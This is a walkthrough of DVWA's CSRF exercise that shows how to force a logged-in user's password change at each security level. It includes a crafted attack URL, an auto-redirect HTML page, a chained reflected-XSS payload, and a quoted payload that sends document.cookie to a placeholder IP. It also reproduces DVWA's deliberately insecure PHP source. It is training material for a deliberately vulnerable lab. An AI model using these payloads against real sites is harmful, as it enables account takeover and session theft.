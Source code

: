 # CSRF

## About
> CSRF is an attack that forces an end user to execute unwanted actions on a web application in which they are currently authenticated. With a little help of social engineering (such as sending a link via email/chat), an attacker may force the users of a web application to execute actions of the attacker's choosing.
> 
> A successful CSRF exploit can compromise end user data and operation in case of normal user. If the targeted end user is the administrator account, this can compromise the entire web application.
> 
> This attack may also be called "XSRF", similar to "Cross Site Scripting (XSS)", and they are often used together.

Source: DVWA Documentation

## Low Security
The functionality of this exercise is a change password mechanism and the objective of the challenge is to make the current user change their own password, without them knowing about their actions, using a CSRF attack.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf1.png?raw=true">
</p>

We also have a Test Credentials button which will send us to other window where we can test the current credentials.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf2.png?raw=true">
</p>

After changing the password, the URL will look like this:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf3.png?raw=true">
</p>

Of course is bad using the password in plaintext as parameter, but just looking at the URL, we can ask ourselves what would happen if someone visit such a URL? Let's try it out!<br/>
For example we craft the following URL: `http://localhost/DVWA/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change#` and send it to someone.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf4.png?raw=true">
</p>

When the victim visits this URL, the action of changing their password is automatically done without their consent. However, the victim needs to be already logged-in to the web application.<br/>

The source code:
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

Let's try other exploitation methods for this vulnerability. A URL like the one presented earlier, would look suspicious, so will be better to host a server that is redirecting the user to the one that we need.<br/>
We can ask the A.I. to generate us a HTML code if we don't know how to do this.
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="refresh" content="0;url=http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#">
<title>Redirecting...</title>
</head>
<body>
<script>
window.location.replace("http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#");
</script>
</body>
</html>
```
We will save this file as index.html and start a python server, on port 4445, in the same location with the html file: `python3 -m http.server 4445`.<br/>
Now visiting the URL: `http://127.0.0.1:4445/index.html`, which looks better now, will redirect us to the vulnerable URL that will change the password.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf5.png?raw=true">
</p>

## Medium Security
"For the Medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must come from the web application so it can be trusted"<br/>

Source code:
```php
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
```
It's true that we can solve it as earlier and modify the Referer HTTP header with Burp Suite, but this will not work in real life because is happening on the victim machine.<br/>
To solve this we will need to chain the vulnerability with XSS or even File Upload. The request must come from the same server.<br/>
I recommend to check the XSS challenges first.<br/>

We have this payload from the XSS Reflected vulnerability `<img src=x onerror='fetch("http://<IP>/?cookie=" + document.cookie)'>`. This one is used to grab the cookie.<br/>
We will take the CSRF URL and add it here instead.<br/>
When someone clicks the final URL, will be sent to XSS endpoint where the javascript code is executed and the user is redirected to the CSRF URL where the change password method is triggered.<br/>
The problem is that the payload must be encrypted to work properly, so it will help first to add it manually in the XSS Reflected challenge input, to send it, and then to grab the final encrypted URL from the browser.<br/>
Then we can change manually the password and send the URL to someone.

Final payload:`http://localhost/DVWA/vulnerabilities/xss_r/?name=<img+src%3Dx+onerror%3D'fetch("http%3A%2F%2Flocalhost%2FDVWA%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword4%26password_conf%3Dpassword4%26Change%3DChange%23")'>#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf6.png?raw=true">
</p>

## High Security
The High level implemented a CSRF token. To exploit this, we need to take somehow the user token and then to use it for the malicious request.<br/>
We can check the form format in the source code:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf7.png?raw=true">
</p>

The main problem is how to grab the user_token because this is available only in the csrf page.
In order to exploit this, we will need to use iframe and File Upload vulnerability.<br/>
First we will create the following exploit and save it as csrf.html:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf8.png?raw=true">
</p>

Inspired from: https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695 <br/>

Create an iframe of the csrf path with the id "myFrame" and then use it in the payload() function to take the user_token and send it further.<br/>
The elements are hidden because we don't want to expose this to the target.<br/>
We will set the security to Low in order to upload the file on the server. The main goal is to solve only the csrf challenge on High level, so is not a problem to use Low level for the additional steps.<br/>
Upload the file on the server and change back the level to High.<br/>
Now, we can send the path to the file to our target. When the page is visited, this is happening:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf9.png?raw=true">
</p>

But the password is successfully changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf10.png?raw=true">
</p>

We can also chain this vulnerability with the Stored XSS and anyone visiting the page will have the password changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf11.png?raw=true">
</p>

## Impossible Security
For the Impossible level, the application requires current password as well as the new password.<br/>
As the attacker does not know this, the site is protected against CSRF style attacks.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf12.png?raw=true">
</p>

